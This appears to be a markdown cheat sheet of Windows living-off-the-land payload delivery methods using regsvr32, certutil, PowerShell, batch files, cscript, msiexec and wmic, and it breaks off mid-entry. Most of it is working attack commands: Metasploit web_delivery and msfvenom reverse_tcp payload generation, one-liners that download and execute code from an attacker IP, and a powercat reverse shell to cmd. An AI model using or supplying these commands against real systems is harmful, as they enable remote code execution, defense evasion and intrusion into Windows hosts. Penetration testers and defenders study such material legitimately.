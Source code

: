  - Squiblydoo utilizes the binary regsvr32.exe to download an XML file that contains scriptlets for executing code: <https://www.carbonblack.com/blog/threat-advisory-squiblydoo-continues-trend-of-attackers-using-native-os-tools-to-live-off-the-land/>
  - Able to request a .sct file and then execute the included PowerShell command inside
    ```
    Syntax: Regsvr32 [/s][/u] [/n] [/i[:cmdline]] <dllname>

    /u – Unregister server
    /i – Call DllInstall passing it an optional [cmdline]; when it is used with /u, it calls dll to uninstall
    /n – do not call DllRegisterServer; this option must be used with /i
    /s – Silent; display no message boxes
    ```
    ```
    use exploit/multi/script/web_delivery
    msf exploit (web_delivery)>set target 3
    msf exploit (web_delivery)> set payload windows/meterpreter/reverse_tcp
    msf exploit (web_delivery)> set lhost 192.168.1.109
    msf exploit (web_delivery)>set srvhost 192.168.1.109
    msf exploit (web_delivery)>exploit
    ```
    ```
    regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll
    ```
- Certutil.exe
    ```
    msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f exe > shell.exe

    certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
    ```
- Powershell.exe
    ```
    git clone https://github.com/besimorhino/powercat.git
    python -m SimpleHTTPServer 80

    powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/powercat.ps1');powercat -c 192.168.1.109 -p 1234 -e cmd"
    ```
- Batch Files
    ```
    msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat

    powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))
    ```
- Cscript
    ```
    msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=1234 -f vbs > 1.vbs
    script.exe "test.vbs"

    powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.109/1.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
    ```
- Msiexec.exe
  - Install MSI packages
  ```
  msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi

  msiexec /q /i http://192.168.1.109/1.msi
  ```
- Wmic.exe
  - WMI command-line interface that is used for a variety of administrative functions for local and remote machine
  - can invoke XSL script (eXtensible Stylesheet Language)
  - koadic:
    ```
    use stager/js/wmic